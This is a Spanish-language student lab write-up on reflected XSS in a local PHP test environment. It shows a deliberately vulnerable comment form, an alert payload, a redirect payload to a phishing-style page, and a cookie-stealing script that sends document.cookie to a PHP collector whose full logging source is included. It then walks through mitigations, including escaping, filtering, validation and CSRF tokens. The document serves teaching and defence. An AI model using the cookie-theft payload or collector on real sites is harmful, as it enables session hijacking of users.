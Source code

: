 # PPS-Unidad3Actividad5-XSS-RaulAlbalatPerez

Explotación y Mitigación de Cross-Site Scripting (XSS)
===
 Objetivo de la práctica:

> El propósito principal de esta actividad es repasar y poner en práctica los ataques de tipo Cross-Site Scripting (XSS), identificando sus principales variantes como el XSS reflejado, almacenado y basado en DOM. Asimismo, se busca analizar fragmentos de código que presentan vulnerabilidades comunes a este tipo de ataque, y aplicar distintas técnicas de prevención que fortalezcan la seguridad de las aplicaciones web frente a estas amenazas.



## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos a crear un página **php** vulnerable. 

## Código vulnerable
---
En primer lugar los que haré será crear un archivo vulnerable **comment.php** en el entorno de pruebas **Lamp** dentro del directorio **www**. Dentro de `www`  creo un directorio **xss** donde meteré el **comment.php** .Dentro de él irá  el siguiente contenido.
![](imagenes/xss1.png)

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](imagenes/xss2.png)

Este fragmento de código genera un formulario que permite al usuario introducir un comentario. Al enviarlo, dicho comentario se imprime directamente en la página con el mensaje “Comentario publicado:\[comentario\]". ESte código no realiza ningún tipo de validación ni limpieza sobre la información introducida por el usuario, lo que abre la posibilidad de insertar scripts maliciosos que pueden ser ejecutados por el navegador.

![](imagenes/xss3.png)


### **Explotación de XSS**
---

Para realizar las explotaciones tendremos que abrir el navegador y acceder a la aplicación: <http://localhost/comment.php> esto nos abrirá un formulario.

**Explotación 1**

En dicho formulario lo que vamos a realizar es introducir un código **JS** para comprobar que el formulario no está lo suficientemente securizado.

~~~
<script>alert('XSS ejecutado!')</script>
~~~

Me aparece una alerta **(alert()**) en el navegador por lo que puede ser vulnerable.

![](imagenes/xss4.png)

**Explotación 2**

En esta explotación introducimos este código.

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](imagenes/xss5.png)

Vemos que  nos redirige a una página de phishing.

![](imagenes/xss6.png)


**Capturar cookies del usuario (en ataques reales):**
---
Con este ataque, un atacante podría robar sesiones de usuarios.

- Creamos un  **servidor atacante** en el servidor web. Para ello creamos directorio de nombre `cookiestealer`dentro de `www` en el cual tendrá un fichero `index.php`con el siguiente código  obtenido de [este archivo php](files/steal.php). Tambien crearemos un fichero `cookies.txt` en la misma ruta donde se encuentra `index.php` y le daremos los permisos corrspondientes.  
~~~
![](imagenes/xss7.png)

<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
fclose($file);

// Responder con un JSON de éxito
echo json_encode(["status" => 200]);
?>
~~~
![](imagenes/xss8.png)

Ataque: Si insertamos en el comentario el siguiente script
~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~
![](imagenes/xss8.png)

![](imagenes/xss9.png)

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

![](imagenes/xss10.png)


Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.Para ello voy a  crear el fichero `comment1.php` con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](imagenes/xss11.png)

La función que hemos creado al principio del documento: `filter_string_polyfill` nos va a eliminar todos los caracteres peligrosos y nos cambia caracteres conflictivos.

Una vez creada `comment1.php` entramos como anteriormente pero con <http://localhost/xss/comment1.php> 
![](imagenes/xss12.png)

Ejecuto el script anteriorque redireccionaba a una página de phishing, para poder comprobar que no se ha ejecutado.
![](imagenes/xss13.png)

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en sus equivalentes entidades HTML. Esto garantiza que incluso si el usuario ingresa una cadena que contiene etiquetas o código HTML, se mostrará como texto sin formato en lugar de que el navegador lo ejecute.
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.


Para realizar la sanitización d ela entrada con `htmlspecialchars()` voy a crear un archivo **comment2.php** con el siguiente código

~~~
<?php
if (isset($_POST['comment'])) {
    // Guardamos el valor del comentario recibido por POST
    $comment = $_POST['comment'];

    // Convertimos caracteres especiales a entidades HTML
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Mostramos el comentario ya filtrado
    echo "<p><strong>Comentario publicado:</strong> $comment</p>";
}
?>
<form method="post">
    <input type="text" name="comment" required>
    <button type="submit">Enviar</button>
</form>
~~~

![](imagenes/xss14.png)

Aunque usar `htmlspecialchars()` es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:
comprobamos resultado accediendo a la URL.
![](imagenes/xss15.png)

**Validación de entrada**
---

En su estado actual, el código no restringe el contenido enviado por el usuario, permitiendo incluso que se introduzcan campos vacíos o textos excesivamente extensos. Es recomendable aplicar validaciones para garantizar que los comentarios tengan un formato y longitud apropiados. Para resolverlos creo  `comment3.php` con el siguiente código:
~~~
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['comment'])) {
    // Sanitizar el comentario recibido
    $comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

    // Validar contenido
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <input type="text" name="comment" required maxlength="500">
    <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](imagenes/xss16.png)


**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).

## Código Seguro


Por último para terminar creo  `comment4.php` con todas las mitigaciones incluidas 

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~
![](imagenes/xss17.png)

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

1. Eliminación de etiquetas HTML y caracteres nulos:

La función filter_string_polyfill() usa preg_replace('/\x00|<[^>]*>?/', '', $string); para eliminar caracteres nulos (\x00) y cualquier etiqueta HTML (<[^>]*>?). Esto reduce la posibilidad de inyección de scripts.

2. Escapado de comillas:

En filter_string_polyfill(), las comillas simples (') y dobles (") se reemplazan por sus equivalentes en entidades HTML (&#39; y &#34;). Esto evita el cierre prematuro de atributos en HTML.

3. Uso de htmlspecialchars:

Después de aplicar filter_string_polyfill(), se vuelve a ejecutar htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');, lo que convierte caracteres especiales en entidades HTML.

	- ENT_QUOTES protege contra XSS al convertir tanto comillas simples como dobles en sus versiones seguras (&#39; y &#34;).

	- UTF-8 previene ataques basados en codificaciones incorrectas.  

4. Validación de longitud y contenido:

Se valida que el comentario no esté vacío y que no supere los 500 caracteres. Aunque esto no previene directamente XSS, ayuda a limitar intentos de ataques masivos.





🚀 Resultado

![](imagenes/xss18.png)
✔ Código seguro contra **Cross-Site Scripting (XSS)**
